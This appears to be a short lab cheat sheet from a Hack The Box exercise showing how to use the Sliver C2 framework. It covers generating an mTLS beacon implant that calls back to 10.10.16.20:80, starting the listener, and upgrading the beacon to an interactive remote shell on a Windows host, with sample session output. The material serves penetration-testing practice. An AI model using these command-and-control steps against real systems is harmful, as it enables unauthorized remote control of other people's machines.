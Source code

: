 # Sliver C2  
### Generate a beacon  
sliver > `generate beacon --mtls 10.10.16.20:80 --save /home/kali/HTB/lab/bc1.exe`  
  
### Setup the listener  
sliver > `mtls --lhost 10.10.16.20 --lport 80`  

### Navigate    
sliver > `jobs`  
sliver > `use beacons`   
Select the beacon using arrows to move   

Once in the beacon shell, it is possible to turn the beacon shell into a session (interactive) shell with the following command :   
sliver (SOLID_TINDERBOX) > `interactive`  
[*] Using beacon's active C2 endpoint: mtls://10.10.16.20:80  
[*] Tasked beacon SOLID_TINDERBOX (da51bf52)    
[*] Session 437faed6 SOLID_TINDERBOX - 10.10.110.10:51443 (cywebdw) - windows/amd64 - Wed, 09 Aug 2023 13:16:42 EDT      
  
The new session appears :    
sliver (SOLID_TINDERBOX) > `sessions`     
| ID       | Transport | Remote Address     | Hostname | Username                      | Operating System | Health  |
| -------- | --------- | ------------------ | -------- | ----------------------------- | ---------------- | ------- |
| 437faed6 | mtls      | 10.10.110.10:51443 | cywebdw  | NT AUTHORITY\\NETWORK SERVICE | windows/amd64    | [ALIVE] | 
  
sliver (SOLID_TINDERBOX) > use 437faed6  
  
Now we got an interactive session shell.    





